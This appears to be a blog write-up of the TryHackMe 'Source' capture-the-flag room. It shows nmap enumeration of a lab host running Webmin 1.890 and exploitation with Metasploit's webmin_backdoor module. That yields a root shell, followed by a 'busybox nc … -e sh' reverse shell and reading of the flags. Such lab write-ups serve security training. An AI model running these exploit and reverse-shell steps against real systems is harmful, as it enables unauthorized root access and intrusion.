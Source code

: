 ```yaml
---
title: "Source"
date: 2025-01-25
image: /assets/img/tryhackme/Source/Source_image.jpg
description: Writeup of the TryHackMe-CTF Source
categories: [TryHackMe, Easy]
tags: [linux, webmin, exploit, metasploit]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Source</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/source">https://tryhackme.com/r/room/source</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution to the CTF challenge Source.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.117.181
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-25 08:23 EST
  Nmap scan report for 10.10.117.181
  Host is up (0.043s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT      STATE SERVICE
  22/tcp    open  ssh
  10000/tcp open  snet-sensor-mgmt

  Nmap done: 1 IP address (1 host up) scanned in 35.07 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,10000 10.10.117.181
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-25 08:24 EST
  Nmap scan report for 10.10.117.181
  Host is up (0.035s latency).

  PORT      STATE SERVICE VERSION
  22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
  |   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
  |_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
  10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
  |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 36.59 seconds
```
From here I proceeded the analysis with port 10000.

## Port 10000 Analysis
When I first accessed the website I got the following error:

![Error](/assets/img/tryhackme/Source/thm_source_1.jpg){: width="1016" height="103"}

I added the domain name in the `etc/hosts` file and a Webmin portal was presented:

![Webmin](/assets/img/tryhackme/Source/thm_source_2.jpg){: width="318" height="354"}

After some inital enumeration I serarched for an exploit and found an <a href="https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection?referrer=search">attackerkb</a> entry. In the last comment stands something about metasploit.

```bash
msf6 > search webmin

Matching Modules
================

   #   Name                                           Disclosure Date  Rank       Check  Description
   -   ----                                           ---------------  ----       -----  -----------
   0   exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1   auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
   2   exploit/linux/http/webmin_file_manager_rce     2022-02-26       excellent  Yes    Webmin File Manager RCE
   3   exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
   4     \_ target: Unix In-Memory                    .                .          .      .
   5     \_ target: Linux Dropper (x86 & x64)         .                .          .      .
   6     \_ target: Linux Dropper (ARM64)             .                .          .      .
   7   exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   8   exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   9   auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   10  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   11    \_ target: Automatic (Unix In-Memory)        .                .          .      .
   12    \_ target: Automatic (Linux Dropper)         .                .          .      .
```
The backdoor exploit sounds great, so I loaded the `Webmin password_change.cgi Backdoor`:
```bash
msf6 > use exploit/linux/http/webmin_backdoor
msf6 exploit(linux/http/webmin_backdoor) > set lhost 10.21.63.26
  lhost => [attacker ip]
msf6 exploit(linux/http/webmin_backdoor) > set rhosts 10.10.117.181
  rhosts => 10.10.117.181
msf6 exploit(linux/http/webmin_backdoor) > set ssl true
  [!] Changing the SSL option's value may require changing RPORT!
  ssl => true
msf6 exploit(linux/http/webmin_backdoor) > exploit

  [*] Started reverse TCP handler on 10.21.63.26:4444 
  [*] Running automatic check ("set AutoCheck false" to disable)
  [+] The target is vulnerable.
  [*] Configuring Automatic (Unix In-Memory) target
  [*] Sending cmd/unix/reverse_perl command payload
  [*] Command shell session 1 opened (10.21.63.26:4444 -> 10.10.117.181:48376) at 2025-01-25 08:43:09 -0500
  
  whoami
  root
  busybox nc [attacker ip] 9001 -e sh 
```
I wasn't able to change the directory from the shell so I started a reverse shell using `busybox`:
```bash
cd /root
	cat root.txt
	THM{*** removed ***}
cd /home
ls
	dark
cd dark
cat user.txt
	THM{*** removed ***}
```

solved! :)
